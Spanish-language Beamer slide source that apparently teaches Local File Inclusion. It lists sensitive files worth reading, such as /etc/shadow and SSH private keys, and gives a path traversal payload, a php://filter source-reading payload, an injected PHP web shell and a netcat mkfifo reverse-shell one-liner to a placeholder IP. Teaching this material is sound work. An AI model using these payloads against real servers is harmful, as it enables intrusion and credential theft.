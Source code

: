 \documentclass[aspectratio=169,10pt]{beamer}
\begin{document}
\begin{frame}[allowframebreaks]{Local File Inclusion (LFI)}
\small
  \begin{itemize}
  \item Vulnerabilidades Web
  \item ¿Qué es?
  \item Path traversal para incluir/leer ficheros del servidor por un
  \item parámetro (?page= ?file= ?include=).
  \item Código vulnerable
  \item \textless{}?php include \$\_GET['pagina']; ?\textgreater{}
  \item Ficheros jugosos
  \item /etc/passwd $\cdot$ /etc/shadow $\cdot$ /etc/hosts $\cdot$ /etc/group
  \item /proc/version $\cdot$ /proc/self/environ $\cdot$ \textasciitilde{}/.ssh/id\_rsa $\cdot$ .bash\_history
  \item /var/log/apache2/access.log $\cdot$ /etc/mysql/my.cnf
  \item Apache por defecto: /var/www/html (probar Linux y Windows).
  \item PortSwigger path traversal $\cdot$ HackBar (LFI)
  \item ?page=../../../etc/passwd
  \item la app incluye el fichero
  \item contenido en la respuesta
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{LFI --- wrappers y RCE}
\small
  \begin{itemize}
  \item Vulnerabilidades Web
  \item Leer el código fuente PHP (wrapper base64)
  \item ?page=php://filter/convert.base64-encode/resource=index.php
  \item El PHP no se ejecuta $\rightarrow$ llega en base64 $\rightarrow$ decodificar y leer.
  \item RCE con wrappers
  \item data:// $\cdot$ php://input $\cdot$ expect:// (si están habilitados)
  \item Inyectar \textless{}?php system(\$\_GET['cmd']); ?\textgreater{} y luego \&cmd=id.
  \item Reverse shell (intrusión)
  \item rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2\textgreater{}\&1|nc IP 3333 \textgreater{}/tmp/f
  \item Codificar el payload. Ver también Log Poisoning (LFI + logs $\rightarrow$ RCE).
  \item PortSwigger LFI to RCE
  \end{itemize}
\end{frame}
\end{document}
